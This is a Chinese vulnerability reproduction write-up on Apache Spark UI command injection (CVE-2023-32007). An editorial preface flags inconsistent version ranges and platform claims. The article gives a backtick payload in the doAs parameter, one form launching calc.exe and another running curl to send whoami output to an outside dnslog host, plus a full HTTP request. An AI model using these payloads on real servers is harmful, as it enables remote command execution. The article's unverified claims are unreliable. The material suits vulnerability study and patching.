






# Apache Spark 远程代码执行漏洞 (CVE-2023-32007)

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：启用UI ACL并触发用户组检查的Unix shell路径；官方<=3.1.3、3.2.0–3.2.1
- 证据范围：文章声称Windows Powershell启动后反引号calc，与官方Unix shell机制不符；需恢复实际平台/调用证据。

### 已有来源支持的更正

- 官方明确32007与33891是同漏洞范围更新，Unix shell执行，修复3.2.2或3.3.0

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 官方32007只是33891补充3.1.3受影响，并非独立新漏洞，应关联同实体
- 前言<3.4.0与正文3.1.1–<3.2.2均不等于官方分支范围，修复3.2.2/3.3.0
- Windows calc与Unix反引号/$(whoami)混搭，不能按截图宣称Windows链已验证
- 低权限条件没有真实鉴权filter及用户配置，缺正常拒绝/注入对照
- 称公告/研究链接为补丁下载不准确；大量推广应清理

### 核验来源

- https://spark.apache.org/security.html

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/jCvb9e_lPWLS01cjw2wqjw)

  

网安引领时代，弥天点亮未来   

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

Apache Spark 是美国阿帕奇（Apache）基金会的一款支持非循环数据流和内存计算的大规模数据处理引擎。

Apache Spark 3.4.0 之前版本存在命令注入漏洞，**该漏洞源于如果 ACL 启用后**，HttpSecurityFilter 中的代码路径可以允许通过提供任意用户名来执行模拟，这将导致任意 shell 命令执行。


  

**0x02 影响版本**  

3.1.1 <= Apache Spark < 3.2.2

利用条件

Apache Spark UI 启用 ACL ，且低权限




  

**0x03 漏洞复现**  

  

1. 下载部署有漏洞版本环境

powershell 启动命令

```
.\spark-shell.cmd --conf spark.acls.enable=true

```



访问漏洞环境



2. 对漏洞进行复现

 **POC （GET）**

```
?doAs=`calc.exe`

```

执行 calc 命令



dnslog 测试  

```
http://10.211.55.7:4040/jobs/?doAs=`curl+$(whoami)hw9y0l.dnslog.cn`

```



```http
GET /jobs/?doAs=`curl+$(whoami)hw9y0l.dnslog.cn` HTTP/1.1
Host: 10.211.55.7:4040
Connection: keep-alive
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0  Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

```




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://lists.apache.org/thread/poxgnxhhnzz735kr1wos366l5vdbb0nv
https://zone.huoxian.cn/d/2761-apache-spark-ui-cve-2023-32007

```

**弥天简介**

**学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。**

**口号 网安引领时代，弥天点亮未来**

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
